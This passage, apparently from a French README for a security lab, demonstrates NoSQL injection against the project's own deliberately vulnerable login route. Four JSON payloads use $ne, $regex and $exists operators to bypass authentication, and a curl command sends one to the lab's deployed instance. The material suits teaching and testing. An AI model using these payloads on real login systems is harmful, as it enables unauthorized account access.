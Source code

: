 
## 💀 Exploits Démontrés

### Page de test interactive
L'application inclut une page de test : `/nosql-test.html` avec 4 exploits automatisés.

### Exploit #1: Contournement d'authentification complet
```json
POST /auth/login-vulnerable
Content-Type: application/json

{
  "email": {"$ne": null},
  "password": {"$ne": null}
}
```
**Résultat:** Authentification en tant que premier utilisateur trouvé

### Exploit #2: Ciblage d'utilisateur spécifique
```json
{
  "email": "admin@test.com",
  "password": {"$ne": null}
}
```
**Résultat:** Accès au compte admin sans connaître le mot de passe

### Exploit #3: Attaque basée sur les rôles
```json
{
  "email": {"$regex": "admin"},
  "password": {"$ne": null}
}
```
**Résultat:** Accès à tout compte contenant "admin" dans l'email

### Exploit #4: Extraction de données
```json
{
  "email": {"$exists": true},
  "password": {"$ne": null}
}
```
**Résultat:** Énumération et accès aux comptes utilisateurs

### Exploitation avec curl
```bash
# Test de l'exploit sur l'environnement de production
curl -X POST https://tp-secu.onrender.com/auth/login-vulnerable \
  -H "Content-Type: application/json" \
  -d '{
    "email": {"$ne": null},
    "password": {"$ne": null}
  }'

# Réponse attendue : token JWT valide + informations utilisateur
```

---